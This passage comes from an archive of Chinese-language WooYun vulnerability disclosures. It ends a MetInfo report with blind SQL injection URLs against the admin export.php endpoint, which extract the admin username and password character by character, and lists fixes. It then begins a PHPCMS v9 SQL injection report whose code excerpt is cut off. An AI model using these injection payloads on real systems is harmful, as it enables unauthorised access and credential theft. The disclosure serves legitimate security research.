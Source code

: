 [`localhost/MetInfo/admin/content/feedback/export.php?met_parameter_1=met_admin_table`](http://localhost/MetInfo/admin/content/feedback/export.php?met_parameter_1=met_admin_table) where substr(admin_id,1,1)=0x61 -- ;&class1=1&settings_arr[0][columnid]=1&settings_arr[0][name]=met_parameter

step3：破解 admin 密码

同上

[`localhost/MetInfo/admin/content/feedback/export.php?met_parameter_1=met_admin_table`](http://localhost/MetInfo/admin/content/feedback/export.php?met_parameter_1=met_admin_table) where admin_id=0x61646d696e and substr(admin_pass,1,1)=0x32 -- ;&class1=1&settings_arr[0][columnid]=1&settings_arr[0][name]=met_parameter

## 修复方案

1\. include check_login

2\. export.php 的那个危险的$$注意下

3\. 打赏点 rank 吧，我不用当路人甲阿。。。

# WooYun-2014-50636：PHPCMS 全版本通杀 SQL 注入漏洞

漏洞作者： [felixk3y](http://www.wooyun.org/whitehats/felixk3y)

来源：[`www.wooyun.org/bugs/wooyun-2014-050636`](http://www.wooyun.org/bugs/wooyun-2014-050636)

## 简要描述

上次你们太不给力了,这次再来个通杀 v9 的 SQL 注入,包括最新 v9.5.3 版本

## 详细说明

# 漏洞产生

总的来说，是因为你们修复不完善，并没有理解到这个 SQL 注入的真正原因,同时 补丁后 并没有进行相应的测试 因而可绕过补丁 继续注入...

# 漏洞分析

首先看下面的代码

/phpcms/modules/member/content.php 202 行 edit 函数

```php
public function edit() {

    $_username = $this->memberinfo['username'];

    if(isset($_POST['dosubmit'])) {

        $catid = $_POST['info']['catid'] = intval($_POST['info']['catid']);

        $siteids = getcache('category_content', 'commons');

        $siteid = $siteids[$catid];

        $CATEGORYS = getcache('category_content_'.$siteid, 'commons');

        $category = $CATEGORYS[$catid];

        if($category['type']==0) {//审核状态时，点编辑 再提交，进入 if 分支

            $id = intval($_POST['id']);

```